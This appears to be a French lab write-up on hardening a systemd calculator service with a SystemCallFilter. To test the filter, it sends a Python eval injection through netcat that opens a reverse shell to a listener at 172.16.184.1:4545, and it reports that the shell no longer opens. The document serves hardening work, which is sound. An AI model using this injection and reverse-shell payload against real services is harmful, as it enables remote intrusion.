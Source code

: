 🌞 **Adaptez le `.service`**

```console
$ cat /etc/systemd/system/calculatrice.service
[Unit]
Description=Super serveur calculatrice

[Service]
User=brah
ExecStart=/usr/bin/python3 /opt/calc.py
Restart=always
SystemCallFilter=setresuid connect setreuid keyctl chdir prctl capget execve brk arch_prctl access openat fstat mmap close read set_tid_address set_robust_list rseq mprotect munmap getrandom futex readlink newfstatat sysinfo lseek getdents64 fcntl ioctl rt_sigaction dup geteuid getuid getegid getgid epoll_create1 socket setsockopt bind listen accept4 getsockname sendto recvfrom write getpeername exit_group pread64

$ sudo systemctl daemon-reload && sudo systemctl restart calculatrice
```

```console
$ nc 10.1.1.129 13337
Hello__import__("os").system("sh -i >& /dev/tcp/172.16.184.1/4545 0>&1")
```

```console
$ nc -lnvp 4545
listening on [any] 4545 ...

```

Le reverse shell ne s'ouvre plus.
